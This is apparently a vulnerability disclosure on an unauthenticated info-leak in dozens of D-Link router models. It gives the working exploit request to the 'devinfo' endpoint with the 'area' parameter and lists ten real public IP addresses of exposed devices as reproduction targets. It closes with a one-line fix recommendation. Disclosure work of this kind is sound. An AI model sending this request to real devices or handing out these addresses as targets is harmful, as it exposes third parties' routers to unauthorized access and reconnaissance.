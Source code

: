# Vulnerability Report

## Vulnerability Description
Summary: D-Link is vulnerable to an unauthorized access exploit, allowing attackers to retrieve sensitive information such as device MAC address, IP address, routing details, device region, version number, etc., by specifying a command,Affecting over 100,000 devices on the Internet.
![图片](https://github.com/999zzzzz/D-Link/assets/156400365/9d9b7217-0c73-480b-a2f0-87d9d8c1d737)

## Affected Versions
Affected software versions: DIR-825ACG1、DIR-841、DIR-1260、DIR-822、DIR-X1530、DIR-825、DIR-615、DIR-842、DIR-853、DIR-1210、DIR-806A、DIR-815、DSL-245GR、DSL-G2452GR、DIR-878、DIR-825ACF、DIR-615T、DIR-300、DIR-842S、DIR-815S、DSL-2640U、DIR-2150、DWR-921、DIR-615S、DIR-620、DVG-5402G、DIR-882、DWM-312W、DIR-815/AC、DSL-224、DWM-321、DIR-X1860、DAP-1360、DIR-820、DIR-843、DVG-5402G/GFRU、DWR-953、DVG-N5402G/IL、DIR-825AC、DIR-620S、DVG-N5402G、Good Line Router v2、DSL-2750U、DIR-615GF、DIR-816

## Vulnerability Details
Detailed information: The "area" parameter of the "devinfo" interface is controllable, allowing for the retrieval of device information. The specific path for the GET request is http://127.0.0.1/devinfo?area=notice|net|version

## Reproduction Steps
Reproduction steps: Ten cases on the Internet were randomly selected:
http://213.108.214.236/
http://217.66.150.18/
http://92.69.82.91/
http://176.212.138.53:9990/
http://185.190.149.189/
http://185.196.118.2/
http://59.127.168.20:1080/
http://176.212.138.237:2376
http://91.240.114.69/
http://62.80.188.13/

## Expected Result
Expected result: The expected result is returned in json format, and the package contains sensitive information fields of the device, including but not limited to ModelName, Version Mask, ModelId, and DeviceMac

## Actual Result
Actual result: ![1705037675942](https://github.com/999zzzzz/D-Link/assets/156400365/a8d7a00f-d2b2-4be2-9ed9-ccedc8f93372)
![图片](https://github.com/999zzzzz/D-Link/assets/156400365/1f4a0b13-ac53-472e-8e83-cf3c0649a1e2)

## Fix Recommendation
Fix recommendation: We recommend that you authenticate the interface

